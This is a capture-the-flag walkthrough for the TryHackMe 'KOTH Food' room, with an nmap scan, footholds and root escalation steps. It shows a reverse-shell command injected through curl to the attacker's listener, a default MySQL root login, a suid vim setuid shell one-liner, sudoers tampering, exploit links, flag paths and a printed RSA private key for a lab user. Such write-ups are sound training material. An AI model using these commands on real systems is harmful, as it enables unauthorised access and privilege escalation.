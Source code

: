 ```yaml
---

topic: koth
author: trap
---
```

This machine is also available to practice with extended time. [`KOTH Food`][koth-food] 


## Nmap:
```
# Nmap 7.92 scan initiated Sun Apr 30 15:26:48 2023 as: nmap -p22,3306,9999,15065,16109,46969 -sV -sC -T4 -Pn 
Nmap scan report for 10.10.159.110
Host is up (0.22s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:0c:0c:d9:5a:7d:be:e6:f4:3c:ed:10:51:49:4d:19 (RSA)
|   256 17:ce:03:3b:bb:20:78:09:ab:76:c0:6d:8d:c4:df:51 (ECDSA)
|_  256 07:8a:50:b5:5b:4a:a7:6c:c8:b3:a1:ca:77:b9:0d:07 (ED25519)
3306/tcp  open  mysql   MySQL 5.7.29-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.29-0ubuntu0.18.04.1
|   Thread ID: 4
|   Capabilities flags: 65535
|   Status: Autocommit
|   Salt: Dm/\x0Bta7\x01\x14C\x0En7=]\x07jjp{
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.29_Auto_Generated_Server_Certificate
| Not valid before: 2020-03-19T17:21:30
|_Not valid after:  2030-03-17T17:21:30
|_ssl-date: TLS randomness does not represent time
9999/tcp  open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Sun, 30 Apr 2023 19:26:57 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|     king
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sun, 30 Apr 2023 19:26:56 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|_    king
15065/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Host monitoring
16109/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sun, 30 Apr 2023 19:26:57 GMT
|     Content-Type: image/jpeg
|     JFIF
|     #*%%*525EE\xff
|     #*%%*525EE\xff
|     $3br
|     %&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     &'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     Y$?_
|     qR]$Oyk
|_    |$o.
46969/tcp open  telnet  Linux telnetd

...
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 30 15:28:35 2023 -- 1 IP address (1 host up) scanned in 107.54 seconds
```


## Footholds:
### ramen
1. Port `3306` is running Mysql, Let's try to access the database using `root:root` for the creds.
2. `mysql -h <ip> -u root -proot`
3. `show databases;`
4. `use users;`
5. `show tables;`
6. `select * from User;`
7. This will reveal a flag and the credentials. `ramen:noodlesRTheBest`

### bread

1. Port `15065` is vuln to command injection and will execute any request posted to `/api/cmd` this can be done using curl. 

  ```
  curl -d "sh -i >& /dev/tcp/$LHOST/9004 0>&1" $RHOST:15065/api/cmd 
  ```


### pasta
1. Port `16109` is hosting a .jpeg
1. Head to website's page `http://$RHOST:16109` and save the picture.
2. We can check for any hidden info inside the picture using `steghide info <picture>`
3. We can extract this info using `steghide extract -sf <picture>`
4. Now lets view what we extracted `cat creds.txt`
5. And we get some credentials `pasta:pastaisdynamic`
6. ssh key is below also.


### food
1. Port `46969` hosts telnet, `telnet <ip> 46969`. It outputs `tccr:uwjsasqccywsg` 🤔️.
2. If we paste this into [`https://www.dcode.fr/rot-cipher`][decode-rot] and decrypt
2. It gives the creds encoded with rot14: `food:givemecookies`

## Privesc:
### `/usr/bin/pkexec`
1. Quickest and easiest way to root but not the intended path for learning. [`Pwnkit`][pwnkit]


### `/usr/bin/vim.basic` 
1. Has the suid bit set. Use it to edit /etc/sudoers.
2. `vim.basic /etc/sudoers`
3. Press `i`
4. Add this line after the line with root.
5. `food ALL=(ALL:ALL) ALL`
6. Press `Esc`
7. Press `:wq!` Enter
8. `sudo su`
9. In prompt enter Food's password, i.e. `givemecookies`
#### `alternative`
1. `/usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'`

### `/usr/bin/screen-4.5.0`
1.  Has the suid bit set, following this will give us a root shell: [`GNU Screen 4.5.0 - Local Privilege Escalation`][exploit-41154]

### `pwfeedback`
1. Since we see asterisks when entering our password for sudo, there is a CVE (2019-18634) that affects sudo when `PWFEEDBACK` is configured. An exploit is available here [`Sudo CVE-2019-18634`][sudo-cve]

## 8 Flags

Most of the flags can be found using `find / -type f -size 38c 2>/dev/null` which will search for all files that are 38 characters (bits) long.

- /root/flag `20 pts`
- /root/.profile `50 pts`
- /root/.mysql_history `20 pts`
- /home/bread/flag `15 pts`
- /home/food/.flag `10 pts`
- /home/tryhackme/flag7 `30 pts`
- /var/flag.txt `15 pts`
- /var/log/auth.log `100 pts`

## Pasta's SSH key

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAuMq9/6Il5rB2QANbYbuYOdb+16f9tIc/85ZW7vvelkzNHADr
HxUKmwcY53C0VWaOzQTzy+xFVwiKuVG3L2z2LQ2W6rSWbw3XCAy9BWnCmXewGOGJ
J7O0tWZoptlD4EY/1/YHdw9f49MWss7yJWT3V/pfytUrKJPiIaVbsHyahhbV1JLc
VfAq1jxPW3+LMbmvP6unvi5X0B4xoGbm64eTWQXHKak1A1wyjYFZtFz98ialAp/+
lwla6MpgJrtgeY6jjRHhkUd/WT0ud1JH+N4Lbldn1Z3Swc6TyEaDrO7v5YLe9ac0
jo/bfhr60X25apItar3VqkWicINZIrJMWSpzJwIDAQABAoIBADdnSdnYAqcMpxeA
Kii+NuC4jgWYb19t4YWlwIC8cTr84c4QlG3oQBrE4Pma9+ZW7l+XqYStXQjAHd98
GYEVmSVe2q2Z4TSAoMTgFNgHonmiweBj1lxZ68crYhsMLuaSCVg1gn121ZgX1Mld
dIozoFj3Tzsf+GWdGQJfcoMSiL3EngQgpxnYGBw5c1AC7DmxFr8NZq2ZlopvlO3Y
bgPWKLtORA4Mksbml8dM1yHsSq8Qg/dCtfe6ldGliqpLQMGj49UWvhbfr63c4+de
a/M247ykFXsW0q9e/ACYlDPFr177PMDK/0KRnY0JTtUeowoqYangAbp1ZTHZpNpj
hGEXGOkCgYEA7TDAu8bl+wDdl6XSdWZIJW2v7iV5ksOPBIqRU8xDX05nnnTY4uqO
9OKPwQo2Qx1gmnZpDAmi+ubW2TVtO75nPqcd/mofycrsKCvaZoGGfKkqyIfdPLZx
8pUsqd1gT2PPK+R22x9tYurlXCJjP2wXEOznBdyxbLYoYzRaIv8weTsCgYEAx3I8
8jWYddhl+wklyuKNX/hqeNgWSZAsUq4vyXK5x4u7Vqd9g0lyJhMCMHBCa7rEDCPf
U6mFhPeGDmqrECxZ9xfRofZq+AwJHAXxcmoou7z7S1Ga1P8N1y7LQGgmcrBw2lkf
kViBaMNGJFOLgtR/QbKzXa3TlfRSZ5sIy0N+7wUCgYEAnqsrczIV7PhiRC0Agdqf
TrJ2q0fUcRJzHOWZXEZbl2j6tiySXhHs+fKJmeg77l+7nPizQwM7TL6ZYQp1fS7d
IDNpRCU4CKS/oAvd+Q6Sqdf8r9L7c77UsSOLkkJuSA2LrGAUBnealD5wmlbCr82e
DIt97BT7d67Pi7WcyqaNhbsCgYB9TzErnLDlmci5KM4t4pmgqpt6wYl/Pq4aZIZx
szs2PHy/vQwG6KZndZnyhRW2SenTFtbB4ciZ+kqn1C0WREdiD/0OHZynrCgtCy7g
DAL7sYjRkbwOBxHTGPtqxAUkGedNyKEk2M6127q+KB+HW6t4w6YePZCqro73uViV
HRsrYQKBgQCaCQD3EX7im9B+CL2XfTCs3fp/WgL6Xw0otiMKHqEuBM9upU4LYs4F
jXaj5A1iFJibD6YoGGBt3sc7Wl2cS4YJO24GtOQlsgK/W2+VQANwQaYZOJPwrR2c
19IyrUe3VZjDbJQpLO1TwBdKj/MpcQhhB+m6WXhVYWkixfTTM6VSyg==
-----END RSA PRIVATE KEY-----
```




[koth-food]: https://tryhackme.com/room/kothfoodctf
[decode-rot]: https://www.dcode.fr/rot-cipher
[pwnkit]: https://github.com/ly4k/PwnKit
[exploit-41154]: https://www.exploit-db.com/exploits/41154
[sudo-cve]: https://github.com/saleemrashid/sudo-cve-2019-18634
